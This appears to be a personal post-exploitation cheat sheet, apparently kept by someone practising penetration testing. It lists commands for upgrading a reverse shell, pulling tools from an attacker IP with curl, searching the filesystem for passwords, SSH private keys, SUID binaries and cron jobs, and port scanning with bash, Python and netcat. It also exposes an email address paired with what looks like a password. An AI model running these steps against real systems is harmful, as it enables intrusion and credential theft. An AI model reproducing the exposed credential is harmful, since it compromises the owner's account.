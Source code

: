 
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg
reset.

export TERM=xterm

```


Make a list of commands to download payloads from the server 

```
curl <attacker_IP>/<tool_name> -o <out_name>
```

```
curl 10.50.88.33/nmap -o nmap_sar
```


To see hidden files 
```
cd / && ls -lah
```


```
hostname
uname -a
lscpu
ps aux


whoami
id
sudo -l
cat /etc/passwd
cat /etc/passwd | cut -d : -f 1


grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
locate password | more
find / -name authorized_keys 2> /dev/null 
find / -name id_rsa 2> /dev/null


sudo -l
find / -perm -u=s -type f 2>/dev/null
strace /usr/local/bin/suid-so 2>&1
env
print $PATH
getcap -r / 2>/dev/null

cat /etc/crontab
cat /etc/exports
```


```
s.singh.kv4.2021@gmail.com

4_tJG--A84K"jitD|ft{73}b,a3]wyg9
```


### Check the OS information
```
cat /etc/os-release
```


### Ping Sweep 

Bash
```
#!/bin/bash  
ports=(21 22 53 80 443 3306 8443 8080)  
for port in ${ports[@]}; do  
timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null"   
done
```


Python
```
#!/usr/bin/python3  
import socket  
host = "1.1.1.1"  
portList = [21,22,53,80,443,3306,8443,8080]  
for port in portList:  
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
 try:  
  s.connect((host,port))  
  print("Port ", port, " is open")  
 except:  
  print("Port ", port, " is closed")
```


Netcat aka NC
```
nc -zv 192.168.100.1 1-65535
```

I think the best option should be nc but will try the upper one as well but as i am not able to make file with nano/vim/vi will go with nc than

